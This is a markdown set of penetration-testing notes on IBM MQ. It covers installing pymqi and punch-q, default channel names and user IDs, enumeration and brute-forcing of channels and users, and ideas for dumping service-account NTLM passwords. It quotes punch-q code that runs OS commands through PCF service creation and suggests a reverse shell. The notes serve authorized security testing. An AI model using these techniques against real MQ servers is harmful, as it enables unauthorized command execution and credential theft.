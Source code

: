# Practical IBM MQ Penetration Testing notes

In order to interact with IBM MQ in any way, we need to install IBM MQ Client libraries, available only on IBM website. Account registration will be required to get hands on them.

### Step 1: Installing prerequisities

**Pre-requisites: IBM MQ Client**

1. Download the [IBM MQ V9.0.0.4 LTS Clients](http://ibm.biz/mq9004clients) - the file should be named: `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` (_9.0.0.4 Client install image for IBM MQ on Linux X86-64_) - size: 397MB
2. Extract it to whatever directory.
3. Install debian/Kali/Ubuntu pre-requisities `apt install -y python-dev rpm`
4. Accept the license: `sudo ./mqlicense.sh -accept` or `sudo ./mqlicense.sh -text_only`
5. Do the following:

```
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
```

### **Step 2: Pymqi & punch-q**

Having properly installed all of the MQ Client dependencies, we can now proceed to installing `pymqi` and `punch-q`:

1. Clone the punch-q repo: `git clone https://github.com/sensepost/punch-q`
2. Install them:
```
# pip install pymqi
# pip install -r requirements.txt
# python setup.py install
```

3. Before using `punch-q` specify MQ libraries path:

Either globally:
```
# sudo echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
# sudo ldconfig -v
```

or temporarily:
```
# export LD_LIBRARY_PATH=/opt/mqm/lib64
```

**One stop shop script installing IBM MQ Client libraries**

Assuming we have `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` file in our current directory, following script applies on Kali x64 linux:
```
apt install -y python-dev rpm pcregrep
tar -xvzf 9.0.0.4-IBM-MQC-LinuxX64.tar.gz
pcregrep -vM '(?:echo "\s+This package was built for \$\{BUILD_PLATFORM\}")\n\s*exit 1' mqlicense.sh > /tmp/mqlicense.sh
cat /tmp/mqlicense.sh > mqlicense.sh
rm /tmp/mqlicense.sh
yes | sudo ./mqlicense.sh -accept
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
pip install pymqi
echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
sudo ldconfig -v
ls | grep -v 9.0.0.4-IBM-MQC-LinuxX64.tar.gz | xargs rm -rf
git clone https://github.com/sensepost/punch-q
cd punch-q
pip install -r requirements.txt
python setup.py install
```

## Step 2: Handy notes on where to focus

**Internally:**

Having found several running processes with names such as:
`amqsvc.exe`, `amqxssvn.exe`, `amqrrmfa.exe`, `amqmtbrn.exe` 

These processes will be running impersonated as highly privileged service user name (according to the usernames table available below, at 2) . These users will act as local SAM users, which means we might be able to dump their NTLM passwords and crack them or even change them to whatever value we wish to facilitate successful IBM MQ server authentication.

**Externally:**

By using `punch-mq` we can:
1) Discover/Brute-Force available CHANNELS, 
2) Enumerate usernames (valid UserId fields)
3) Enumerate Queue Manager names
4) List available Channels or Queues as an authenticated user.
5) PUT, GET, Dump, Save, Sniff messages given an existent QUEUE name, as an authenticated user
6) Issue OS Commands by the use of `PCFExecute` functionality

In order to successfully authenticate to the IBM MQ server, we will need to have upfront following informatio prepared:
- Hostname/IP address
- TCP Port, typically `1414/tcp`
- Queue Manager name - easily obtained by the use of nmap scripts: `nmap -p 1414 -sV <host>` 
- Channel name (can be one of the below listed), at first start with: `SYSTEM.ADMIN.SVRCONN`
- Username (list of default system usernames below)
- Password

Incorrect access credentials will result in `pymqi` returning following response:
```
pymqi.MQMIError: MQI Error. Comp: 2, Reason 2035: FAILED: MQRC_NOT_AUTHORIZED
```

### 1) Default channel names:

_(in order to view system objects - click "Show System Objects" on upper right side of the MQ Explorer interface)_

```
SYSTEM.ADMIN.SVRCONN
SYSTEM.AUTO.SVRCONN
SYSTEM.DEF.SVRCONN
SYSTEM.DEF.SERVER
SYSTEM.DEF.CLNTCONN
```

### 2) Default Userid's depending on target OS version:

| OS Version     | UserId       |
|----------------|--------------|
| Linux/Unix/AIX | mqm          |
| Windows        | MUSR_MQADMIN |
| Other          | mqadmin      |

### 5) Important Administration QUEUE names:

```
SYSTEM.ADMIN.COMMAND.QUEUE
SYSTEM.DEFAULT.MODEL.QUEUE
SYSTEM.AUTH.DATA.QUEUE
```

### 6) Remote Code Execution

**6.1. Programmable Command Format (PCF) Services**

Being authenticated to the Queue Manager and a corresponding channel, we might be able to execute PCF (_Programmable Command Format_) commands (on MQ v6+) that would give us OS command execution by the use a concept called _services_:
- `MQCMD_CREATE_SERVICE`, 
- `MQCMD_START_SERVICE`, 
- `MQCMD_STOP_SERVICE`, 
- `MQCMD_DELETE_SERVICE`

That holds true as long as our impersonated user has sufficient permissions within OAM (Object Authority Manager) to perform requested PCF operation on the relevant objects.

Using `pymqi` or `punch-mq` this is as simple as invoking following code (source: [punch-mq](https://github.com/sensepost/punch-q/blob/master/libpunchq/cli.py) ):
```
    # create service
    qmgr = pymqi.connect(mqstate.qm_name, mqstate.channel, mqstate.get_host(),
                         mqstate.username, mqstate.password)
                         
    args = {
        pymqi.CMQC.MQCA_SERVICE_NAME: service_name,
        pymqi.CMQC.MQIA_SERVICE_CONTROL: pymqi.CMQC.MQSVC_CONTROL_MANUAL,
        pymqi.CMQC.MQIA_SERVICE_TYPE: pymqi.CMQC.MQSVC_TYPE_COMMAND,
        pymqi.CMQC.MQCA_SERVICE_START_COMMAND: str(cmd),
        pymqi.CMQC.MQCA_SERVICE_START_ARGS: str(args)
    }
    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_CREATE_SERVICE(args)

    # start the service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_START_SERVICE(args)

    # Giving the service some time to live
    time.sleep(wait)

    # delete service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_DELETE_SERVICE(args)

    qmgr.disconnect()
```

Incomming command will then be executed most likely as a root user. `punch-mq` does not implement any way of getting command's result back so we will have to go blindly here, preferably just using reverse-shell oneliner. 

If we wish to have our commands' results back, then more code will need to be added facilitating specification of output Queue where PCF should PUT it's results, then manual Queue read by the use of GET operation to retrieve OS command's outcome. Such a Queue could be created based on `SYSTEM.DEFAULT.MODEL.QUEUE` template. Martyn Ruks goes in details on that in his paper (ref: 1, page 24).

**6.2. Use of Triggers**

Martyn Ruks described (ref: 1, page 30) that we may also succeed invoking system commands by defining event triggers that would execute specified command as soon as preconfigured event fired up our malicious trigger.


## Additional sources

1. [Martyn Ruks: WebSphere MQ Security. White Paper – Part 1](https://labs.f-secure.com/assets/141/original/mwri_websphere-mq-security-white-paper-part1_2008-05-06.pdf)
2. [Martyn Ruks: MQ Jumping](https://www.defcon.org/images/defcon-15/dc15-presentations/dc-15-ruks.pdf)
3. [punch-q](https://github.com/sensepost/punch-q)
4. [pymqi installation issue](https://github.com/dsuch/pymqi/issues/15#issuecomment-124772995)
5. [mini-reverse.ps1 script designed by @staaldraad](https://gist.github.com/mgeeky/fc11c9f227755a529eb607ed4d1742f9)

